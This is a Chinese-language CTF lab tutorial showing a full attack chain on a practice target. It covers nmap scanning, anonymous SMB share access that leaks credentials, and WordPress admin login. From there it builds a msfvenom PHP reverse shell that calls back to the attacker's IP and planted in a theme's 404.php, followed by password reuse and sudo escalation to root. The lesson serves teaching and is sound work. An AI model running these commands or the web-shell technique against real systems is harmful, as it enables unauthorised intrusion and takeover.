# 2024年网络安全CTF全套教程：P7：5.6.CTF夺旗-SMB信息泄露 🔓

在本节课中，我们将学习如何利用SMB（Server Message Block）协议的信息泄露漏洞，逐步获取目标主机的访问权限，最终提升至root权限并取得flag值。

## 概述：SMB协议简介



上一节我们介绍了信息收集的基本方法，本节中我们来看看一个具体的协议漏洞——SMB信息泄露。



SMB是Server Message Block的缩写。它是一个由微软和英特尔在1987年制定的网络通信协议，主要作为微软网络的通信协议。后来Linux系统移植了SMB协议，并将其改名为Samba。





SMB协议基于TCP-NetBIOS，通常使用的端口号是**139**和**445**。该协议用于访问网络上的共享资源，例如共享文件夹。开启SMB共享后，远程计算机可以通过该协议连接并下载共享资源。







## 实验环境搭建



以下是本次实验所使用的环境配置：



*   **攻击机**：Kali Linux，IP地址为 `192.168.253.12`
*   **靶机**：Linux系统，IP地址为 `192.168.253.17`

我们的最终目标是获取靶机上的flag值。为此，我们需要不择手段地获取靶机权限。




## 第一步：信息收集与扫描


拿到靶机IP后，第一步是进行信息探测。渗透测试的本质就是针对目标机器开放的服务进行漏洞探测，通过发送特定数据包来获取最高权限。

我们使用Nmap工具来探测靶机开放的服务。





以下是使用Nmap进行服务版本探测的命令：
```bash
nmap -sV 192.168.253.17
```

除了基础服务扫描，我们还可以进行更全面的信息探测。

以下是使用Nmap进行激进扫描的命令：
```bash
nmap -A -v -T4 192.168.253.17
```
参数说明：
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由跟踪。
*   `-v`：详细输出扫描过程。
*   `-T4`：指定扫描速度，T4为较快速度。





扫描完成后，我们需要分析结果。计算机通过端口区分不同服务，常见端口号0-1023已分配给固定服务。在扫描结果中，我们发现了**139**和**445**端口开放，并识别出SMB服务及其版本、工作组信息。这表明靶机开放了SMB服务。



## 第二步：SMB弱点分析与利用



针对扫描到的SMB服务，我们可以进行以下弱点分析。

首先尝试使用空口令登录SMB共享文件夹。如果成功，就可以查看并下载敏感文件。



以下是列出靶机SMB共享目录的命令：
```bash
smbclient -L //192.168.253.17
```
输入命令后，直接按回车使用空密码。返回结果显示了三个共享：`print$`（打印机驱动）、`share`（共享文件夹）、`IPC$`（空链接，一种无需用户名即可登录的共享方式）。

接下来，我们尝试访问这些共享以查看内容。

以下是连接指定SMB共享的命令格式：
```bash
smbclient ‘//192.168.253.17/共享名’
```

*   尝试连接`print$`共享失败，提示权限不足。
*   尝试连接`share`共享成功，使用`ls`命令可以列出其中的文件。
*   尝试连接`IPC$`共享成功，但无法列出具体内容，利用价值不大。

因此，我们重点查看`share`共享。连接后，使用`get`命令下载敏感文件。我们发现了一个名为`deets.txt`的文件，下载并查看其内容后，得到一条密码信息：`12345`。

我们继续在`share`共享中探索，发现一个`wordpress`目录。WordPress的配置文件`wp-config.php`中通常包含数据库的用户名和密码。我们下载该文件并查看，成功获取到数据库的用户名`admin`和对应的密码。

## 第三步：权限提升路径探索

获得凭据后，我们尝试多途径登录系统。

1.  **尝试MySQL登录**：扫描结果显示开放了3306端口（MySQL）。使用获取的数据库密码尝试远程登录失败。
    ```bash
    mysql -h 192.168.253.17 -u admin -p
    ```
2.  **尝试SSH登录**：扫描结果显示开放了22端口（SSH）。使用`admin`用户和数据库密码尝试SSH登录也失败。
    ```bash
    ssh admin@192.168.253.17
    ```
3.  **检查SMB远程溢出漏洞**：使用`searchsploit`工具结合扫描到的SMB版本号搜索公开漏洞，未发现可直接利用的远程溢出漏洞。

## 第四步：Web渗透与Shell获取



由于直接登录尝试受挫，我们转向对HTTP服务（80端口）进行弱点分析。目标是寻找登录界面，利用已有凭据进入后台，通过上传Web Shell获取系统权限。

首先使用`dirb`工具扫描Web目录。
```bash
dirb http://192.168.253.17
```
扫描结果中发现了`/wp-admin`目录，这是WordPress的后台登录入口。在浏览器中访问该地址，使用之前从SMB中获取的用户名`admin`和密码`12345`成功登录。





成功进入WordPress后台后，我们可以通过编辑主题文件的方式上传Web Shell。

1.  **生成Web Shell**：使用`msfvenom`生成一个PHP反向连接Shell。
    ```bash
    msfvenom -p php/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw
    ```
    将生成的PHP代码（去掉开头的注释）保存为`webshell.php`文件。
2.  **启动监听**：在攻击机上使用Metasploit框架启动监听，等待Shell连接。
    ```bash
    msfconsole
    use exploit/multi/handler
    set payload php/reverse_tcp
    set LHOST 192.168.253.12
    set LPORT 4444
    run
    ```
3.  **上传Web Shell**：在WordPress后台，进入`外观` -> `主题编辑器`，选择`404.php`模板文件，将生成的Web Shell代码粘贴进去并更新文件。
4.  **触发Web Shell**：访问特定的主题404页面URL来执行我们的Shell代码。例如：`http://192.168.253.17/wp-content/themes/当前主题名/404.php`。
5.  **获取反向Shell**：触发后，在Metasploit监听端成功接收到来自靶机的反向Shell连接，获得了`www-data`用户的权限。



## 第五步：系统内信息收集与提权



获得初始Shell后，首先优化终端以便于操作。
```bash
python -c ‘import pty; pty.spawn(“/bin/bash”)’
```



接下来在系统内进行信息收集，寻找提权路径。



1.  **查看系统用户**：通过查看`/etc/passwd`文件，发现系统中存在一个名为`toogie`的用户。
    ```bash
    cat /etc/passwd
    ```
2.  **切换用户**：尝试切换到`toogie`用户，并使用之前发现的密码`12345`，切换成功。
    ```bash
    su toogie
    # 输入密码：12345
    ```
3.  **提权至root**：检查`toogie`用户的sudo权限，发现可以直接切换到root用户。
    ```bash
    sudo su
    ```
    成功获得root权限。







## 第六步：获取Flag

在获得root权限后，即可在系统根目录下寻找flag文件。
```bash
cd /root
ls
cat flag.txt
```
成功读取到最终的flag值。



## 总结 🎯

本节课中我们一起学习了完整的SMB信息泄露利用链。对于开放139和445端口的机器，需要重点关注是否可以使用`smbclient`空口令或弱口令登录共享目录，并仔细查找和分析共享文件中的敏感信息（如配置文件、密码文本等）。这些信息往往是进入内网或提升权限的钥匙。此外，在CTF比赛中，flag通常存放在只有root权限才能访问的目录（如`/root`）下，因此在获得初始立足点后，系统地信息收集和提权是必不可少的关键步骤。



---
**核心要点回顾**：
1.  **信息收集**：使用Nmap全面扫描，识别开放端口与服务。
2.  **漏洞利用**：利用SMB空口令/弱口令访问共享，下载并分析敏感文件。
3.  **横向移动**：将发现的凭据应用于其他服务（如Web后台、SSH、数据库）进行尝试。
4.  **Web渗透**：通过Web后台漏洞（如文件上传）获取系统Shell。
5.  **权限提升**：在系统内部进行信息收集（用户、SUDO权限），利用密码复用或配置不当提权至root。
6.  **获取目标**：在root目录下找到并读取flag。